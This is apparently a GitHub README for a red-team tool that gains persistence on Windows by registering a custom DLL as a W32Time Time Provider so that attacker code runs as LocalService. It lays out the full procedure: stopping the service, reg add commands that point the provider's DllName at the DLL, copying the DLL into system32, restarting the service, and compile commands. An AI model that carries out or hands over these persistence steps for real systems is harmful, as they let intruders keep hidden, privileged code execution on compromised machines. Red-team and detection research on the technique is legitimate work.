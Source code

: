 # w32TimePersistence

Windows high-privilege persistence technique that consists in adding a new Time Provider and writing a custom DLL based off of [this](https://learn.microsoft.com/en-us/windows/win32/sysinfo/sample-time-provider) Sample Time Provider DDL template from Microsoft to execute code as the `LocalService` user.

To read a more in-depth analysis of this technique read [this](https://otter.gitbook.io/red-teaming/articles/gaining-persistence-on-windows-with-time-providers) article ʕ •ᴥ•ʔ

## Usage
To use this technique, put whatever code you want to execute inside the `definitelyLegit` function in the [library.cpp](https://github.com/otterpwn/w32TimePersistence/blob/main/library.cpp) file, compile the DLL and perform the following steps

1. Stop the w32time service
2. Add a registry entry for a new Time Provider pointing the DllName key to our DLL
3. Enable the new Time Provider and set it as a input Time Provider
4. Copy our DLL into the desired location
5. Start the process up again

```
sc stop w32time

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\w32TimePersistence.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_DWORD /v "InputProvider" /d "1" /f

copy w32TimePersistence.dll C:\windows\system32\

sc start w32time
```

## How to compile
Start the Developer Command Prompt for Visual Studio and compile with the following commands
```
mkdir build
cd build
cl /D_USRDLL /D_WINDLL ..\library.cpp ..\library.def /MT /link /DLL /OUT:w32TimePersistence.dll
```

Watch the video below to see the full attack

![](https://github.com/otterpwn/w32TimePersistence/blob/main/assets/w32TimePersistence.mp4)
